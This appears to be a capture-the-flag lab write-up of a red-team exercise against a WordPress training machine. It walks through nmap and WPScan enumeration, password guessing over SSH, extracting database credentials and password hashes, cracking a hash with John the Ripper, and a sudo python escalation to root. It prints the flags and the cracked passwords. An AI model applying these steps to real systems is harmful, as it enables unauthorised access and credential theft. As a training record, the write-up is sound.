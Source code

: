 # Red Team: Summary of Operations
 
## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation
 
### Exposed Service
 
Nmap scan results for the target machine reveal the below services and OS details:
 
```bash
$ nmap -sV -O 192.168.1.0/24
```
 
This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp – SSH – open  
    Allows ssh logins and brute force attack using dictionary.
 
  - Port 80/tcp – HTTP – open
    Allows for HTTP traffic and brute force attack using dictionary.
 
  - Port 111/tcp – rbcbind – open 
    Allows to see what services are running which help hackers in the reconnaissance step. RPC has several security vulnerabilities.
 
   - Port 139/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
     
   - Port 445/tcp – netbios-ssn – open
     Allows for network file sharing and potentially for reverse shell attack via Metasploit. 
 
 
The following vulnerabilities were identified on target 1:

 
### WPScan
- WPScan was ran to enumerate version and users. 
- Wordpress is running version 3.7.8, which has many vulnerabilities:
 https://www.cvedetails.com/vulnerability-list/vendor_id-2337/product_id-4096/version_id-224460/Wordpress-Wordpress-3.7.8.html
- Two users were found: Michael and Steven.

### Brute Force Attack
 
- Michael password was guessed, and it was the same as his login, Michael. 
- Steven password was cracked using john the ripper after finding his has hash.
 
### Python Shell Commands
- After logged in as Steven, I used the python bash commands to gain root access. 

## Exploitation
 
The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:

  - `flag1.txt`: {b9bbcb33e11b80be759}
     - **Exploit Used:**
         - Used ls to look at the html directory an inspected the files in it. Found the flag in the html directory.
         - Commands used:
```bash
$ cd /var/www/html
$ ls
$ cat service.html
```
  - `flag2.txt`: {fc3fd58dcdad9ab23faca6e9a36e581c}
     - **Exploit Used:**
         - Weak password policy
         - Michael’s password was guessed while trying to login to his account using ssh.
         - The flag was found using the locate command. Flag was found in yhe /var/www directory.
     - **Commands used:**
```bash
$ ssh michael@192.168.1.110
Password: Michael
$ locate flag
```                           
 - `flag3.txt`: {afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used:**
        - Looking for information that sysadmin forgot to remove. 
        - Found the password for the MySQL database in the file wp_config.html located in the directory /var/www/html/wordpress.
        - Logged into the MySQL database and found the hashes for Michael’s and Steve’s password in the worpress database in the wp_users table.
        - Found flag 3 in the table wp_posts 
     - **Commands used:**
```bash
$ Mysql -u root -p
$ Show database;
$ Use wordpress;
$ Show tables;
$ Select * from wp_users;
$ select * from wp_posts where post_title=”flag3”;
```        
- `flag4.txt`: {715dea6c055b9fe3337544932f2941ce}
   - **Exploit Used**
       - Python Shell command
       - Steven’s password was cracked using john the riper after creating a file called wp_hashes.txt with his hash in it.
       - Once logged in as Steven, I still could not gain root access, but found out with sudo -l that he could run commands on raven without password.
       - Python scrip was run to gain access and flag 4 was found.
    - **Command used:**
```bash
$ john wp_hashes.txt. The password is pink84.
$ sudo -l
$ sudo /usr/bin/python
>>> import os
>>> os.system ("sudo su root"|)
$ whoami
```
 





